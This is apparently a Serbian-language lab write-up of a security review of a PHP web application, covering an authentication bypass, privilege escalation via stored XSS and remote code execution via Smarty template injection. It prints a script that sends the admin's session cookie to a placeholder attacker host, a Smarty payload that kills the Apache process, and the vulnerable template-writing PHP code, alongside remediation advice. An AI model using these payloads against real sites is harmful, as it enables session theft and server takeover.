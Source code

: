 # Bezbednosni pregled koda i analiza

## Zaobilaženje mehanizma autentikacije

## Eskalacija privilegija do administratorskog nivoa

Analizom koda za autorizaciju, primećeno je da se proverava samo da li je username korisnika admin. Budući da nema provere dupliranih username, uspešno smo kreirali nalog napadača pomoću SQL injekcije. Zbog diversifikacije, za metod eskalacije privilegija je ipak izabran XSS u vidu skripte koja bi se učitala samo u podacima koje vidi administrator - u tabeli korisnika. Svi korisnici mogu da ažuriraju opis svog profila pri čemu ne postoji validacija unosa. Kasnije se ti podaci koriste na nesiguran način prilikom učitavanja tabele pri čemu dolazi do **persisted XSS** ranjivosti.

```html
<script>fetch(`http://{attacker_host}:{port}/${{document.cookie}}`);</script>
```

*Exploit* sadrži jedan zahtev ka adresi napadača u kom se šalju *Cookies* koji sadrže **PHPSESSID** admina. Potom se ovaj *session id* koristi u novoj sesiji sa administratorskim pravima. Ranjivost je mogla da bude sprečena zaštitom od XSS (validacija unosa i bezbedno rukovanje ispisom vrednosti) ili sigurnom konfiguracijom *Cookies* sa ograničenjima za slanje samo preko *https* i zabranom pristupa polju *cookie* iz *JavaScript-a*.

## Izvršenje proizvoljnog koda na serveru

Analizom koda možemo primetiti par raanjivosti prilikom promene *Message of the day* poruke i njenog učitavanja. Za promenu poruke neophodno je da korisnik ima privilegije admina koje su dobijene u prethodnom zadatku. Poruka se pre slanja ne proverava i moguće je poslati bilo koji tekst ili kod koji se odmah unosi u *motd.tpl*. Ova ranjivost može dovesti do **XSS** i **RCE** napada. 

```php
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
        $message = $_POST['message'];

        if ($message !== "") {
            $t_file = fopen("../templates/motd.tpl","w");
            fwrite($t_file, $message);
            fclose($t_file);

            $success = "Message set!";
        } else {
            $error = "Empty message";
        }
    }
```

Druga bitna ranjivost je korišćenje **Smarty** template-a. Njegov posao je da procesuje sintaksu *motd.tpl* kako bi generisao finlani HTML. **Smarty** ima ugrađenu mogućnost da izvršava i PHP kod, što može biti korisno developer-ima ali takođe čini aplikacije ranjivim. 

**RCE** postižemo tako što kao poruku dana pošaljemo maliciozan kod poput:

```php
{php}exec('pkill -f apache2');{/php}
```

Poruka će se bez provere sačuvati. *MOTD* poruke se prikazuju svim korisnicima nakon prijave na sistem. Kada se korisnik prijavi i svaki put kada se učita index stranica, aplikacija će pokušati da mu prikaže poruku dana i maliciozni kod će zbog **Smarty**-ija biti izvršen. 
